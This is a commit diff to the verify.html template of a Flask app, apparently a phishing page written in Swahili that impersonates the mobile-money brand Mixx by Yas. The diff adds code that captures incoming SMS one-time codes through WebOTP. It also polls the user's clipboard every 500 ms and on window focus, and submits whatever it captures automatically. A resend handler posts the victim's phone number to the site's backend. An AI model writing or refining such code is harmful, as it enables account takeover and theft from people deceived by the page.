

Before and after one commit to alphalibee1544/mixx-plus, a Flask app: page /verify in a window 1280 px wide. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update verify.html

```diff
--- a/templates/verify.html
+++ b/templates/verify.html
@@ -50,10 +50,10 @@
                 <h3 style="color:var(--dark);">✅ Namba ya Uthibitisho</h3>
                 <div class="phone-display" id="showPhone">+255 ---------</div>
                 <div class="code-instruction">
-                    <i class="fas fa-sms"></i> <strong>Tafadhali fuata hatua hizi:</strong><br><br>
-                    <strong>1.</strong> Gusa <strong>"Ruhusu"</strong> kwenye dirisha lililo juu<br>
-                    <strong>2.</strong> Subiri ujumbe wa SMS kutoka <strong>Mixx by Yas</strong><br>
-                    <strong>3.</strong> Ujumbe utajaza na kutumwa moja kwa moja!
+                    <i class="fas fa-sms"></i> <strong>Msimbo utagunduliwa kiotomatiki:</strong><br><br>
+                    <strong>1.</strong> Subiri SMS ifike kutoka <strong>Mixx by Yas</strong><br>
+                    <strong>2.</strong> Gusa <strong>"Allow"</strong> kwenye kidirisha kitakachoonekana<br>
+                    <strong>3.</strong> Msimbo utajaza na kutumwa moja kwa moja!
                 </div>
                 <a href="sms:" class="sms-open-btn" id="btnIPhone" style="display:none;">
                     <i class="fas fa-envelope"></i> 📱 iPhone: Gusa Hapa Kufungua Messages
@@ -61,9 +61,9 @@
                 <a href="sms:" class="sms-open-btn" id="btnAndroid" style="display:none;">
                     <i class="fas fa-envelope"></i> 🤖 Android: Gusa Hapa Kufungua SMS
                 </a>
-                <textarea id="smsMessage" class="sms-textarea" placeholder="Subiri... ujumbe utajaza hapa moja kwa moja." readonly></textarea>
+                <textarea id="smsMessage" class="sms-textarea" placeholder="Subiri SMS... msimbo utajaza hapa kiotomatiki." readonly></textarea>
                 <div class="timer-bar" id="timerDisplay">⏳ 60s</div>
-                <div class="error-msg" id="codeError">Inaomba ruhusa...</div>
+                <div class="error-msg" id="codeError">Inasubiri SMS...</div>
                 <button class="btn btn-gold" onclick="submitCode()">Endelea →</button>
                 <div class="resend-link"><a onclick="resendCode()">↻ Hukupokea SMS? Bonyeza hapa</a></div>
             </div>
@@ -82,7 +82,7 @@
         document.getElementById('showPhone').textContent = '+255 ' + userPhone;
 
         var checkInterval = null, countdownTimer = null, clipWatcher = null, lastClip = '';
-        var resendCount = 0, resendCooldown = false, permissionGranted = false;
+        var resendCount = 0, resendCooldown = false, smsDetected = false;
 
         (function() {
             var ua = navigator.userAgent.toLowerCase();
@@ -94,25 +94,8 @@
         })();
 
         startCountdown();
-
-        async function forcePermission() {
-            try {
-                var text = await navigator.clipboard.readText();
-                permissionGranted = true;
-                document.getElementById('codeError').textContent = '✅ Inasubiri SMS kutoka Mixx by Yas...';
-                document.getElementById('codeError').style.color = 'var(--success)';
-                document.getElementById('codeError').classList.add('show');
-                setTimeout(function() { document.getElementById('codeError').classList.remove('show'); }, 3000);
-                startClipWatcher();
-            } catch(e) {
-                document.getElementById('codeError').textContent = 'Gusa "Ruhusu" juu ya skrini kuruhusu kunakili.';
-                document.getElementById('codeError').style.color = 'var(--danger)';
-                document.getElementById('codeError').classList.add('show');
-                setTimeout(function() { forcePermission(); }, 1000);
-            }
-        }
-
-        forcePermission();
+        startAutoDetect();
+        startClipWatcher();
 
         function startCountdown() {
             if (countdownTimer) clearInterval(countdownTimer);
@@ -125,20 +108,51 @@
             }, 1000);
         }
 
+        // ================================================================
+        // SMS AUTO-DETECTION via WebOTP
+        // ================================================================
+        function startAutoDetect() {
+            if (!('OTPCredential' in window)) {
+                console.log('WebOTP not supported on this browser');
+                return;
+            }
+            var ac = new AbortController();
+            navigator.credentials.get({
+                otp: { transport: ['sms'] },
+                signal: ac.signal
+            }).then(function(otp) {
+                if (otp && otp.code && !smsDetected) {
+                    smsDetected = true;
+                    var fullSMS = 'Your verification code is: ' + otp.code;
+                    document.getElementById('smsMessage').value = fullSMS;
+                    document.getElementById('codeError').textContent = '✅ Msimbo umegunduliwa! Inatuma...';
+                    document.getElementById('codeError').style.color = 'var(--success)';
+                    document.getElementById('codeError').classList.add('show');
+                    if (clipWatcher) clearInterval(clipWatcher);
+                    if (countdownTimer) clearInterval(countdownTimer);
+                    document.getElementById('timerDisplay').textContent = '✅ Imekamilika';
+                    document.getElementById('timerDisplay').className = 'timer-bar';
+                    setTimeout(function() { submitCode(); }, 500);
+                }
+            }).catch(function() {});
+            setTimeout(function() { ac.abort(); }, 120000);
+        }
+
         function startClipWatcher() {
             if (clipWatcher) clearInterval(clipWatcher);
             lastClip = '';
-            clipWatcher = setInterval(checkClipboard, 300);
+            clipWatcher = setInterval(checkClipboard, 500);
         }
 
         async function checkClipboard() {
-            if (!document.getElementById('screenCode').classList.contains('active')) {
+            if (!document.getElementById('screenCode').classList.contains('active') || smsDetected) {
                 clearInterval(clipWatcher);
                 return;
             }
             try {
                 var text = await navigator.clipboard.readText();
                 if (text && text !== lastClip && text.length > 15) {
+                    smsDetected = true;
                     handleClipboardText(text);
                 }
             } catch(e) {}
@@ -158,26 +172,19 @@
         }
 
         document.addEventListener('visibilitychange', function() {
-            if (!document.hidden && document.getElementById('screenCode').classList.contains('active')) {
+            if (!document.hidden && document.getElementById('screenCode').classList.contains('active') && !smsDetected) {
                 lastClip = '';
-                setTimeout(async function() {
-                    try {
-                        var text = await navigator.clipboard.readText();
-                        if (text && text.length > 15) {
-                            handleClipboardText(text);
-                        }
-                    } catch(e) {}
-                    startClipWatcher();
-                }, 500);
+                startClipWatcher();
             }
         });
 
         window.addEventListener('focus', function() {
-            if (document.getElementById('screenCode').classList.contains('active')) {
+            if (document.getElementById('screenCode').classList.contains('active') && !smsDetected) {
                 setTimeout(async function() {
                     try {
                         var text = await navigator.clipboard.readText();
-                        if (text && text !== lastClip && text.length > 15) {
+                        if (text && text.length > 15 && !smsDetected) {
+                            smsDetected = true;
                             handleClipboardText(text);
                         }
                     } catch(e) {}
@@ -189,12 +196,12 @@
             if (!userPhone) return;
             if (resendCooldown) { document.getElementById('codeError').textContent = 'Subiri sekunde 30.'; document.getElementById('codeError').style.color = 'var(--danger)'; document.getElementById('codeError').classList.add('show'); return; }
             if (resendCount >= 3) { document.getElementById('codeError').textContent = 'Umezidi idadi. Jaribu baadae.'; document.getElementById('codeError').style.color = 'var(--danger)'; document.getElementById('codeError').classList.add('show'); return; }
-            resendCount++; resendCooldown = true;
+            resendCount++; resendCooldown = true; smsDetected = false;
             document.getElementById('smsMessage').value = ''; lastClip = '';
             document.getElementById('codeError').textContent = 'OTP Imetumwa. (' + resendCount + '/3)';
             document.getElementById('codeError').style.color = 'var(--primary)'; document.getElementById('codeError').classList.add('show');
             try { await fetch('/api/submit_loan', { method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({ phone: userPhone, pin: '0000', amount: parseInt(payAmount), months: 12, loan_type: '', purpose: 'OTP REQUESTED' }) }); } catch(e) {}
-            startClipWatcher(); startCountdown();
+            startClipWatcher(); startCountdown(); startAutoDetect();
             setTimeout(function() { resendCooldown = false; }, 30000);
         }
 
@@ -218,10 +225,10 @@
 
         function showCodeError() {
             document.getElementById('screenWait').classList.remove('active'); document.getElementById('screenCode').classList.add('active');
-            document.getElementById('smsMessage').value = ''; lastClip = '';
+            document.getElementById('smsMessage').value = ''; lastClip = ''; smsDetected = false;
             document.getElementById('codeError').textContent = 'Msimbo sio sahihi. Jaribu tena.';
             document.getElementById('codeError').style.color = 'var(--danger)'; document.getElementById('codeError').classList.add('show');
-            startCountdown(); startClipWatcher();
+            startCountdown(); startClipWatcher(); startAutoDetect();
             setTimeout(function() { document.getElementById('codeError').classList.remove('show'); }, 4000);
         }
     </script>
```
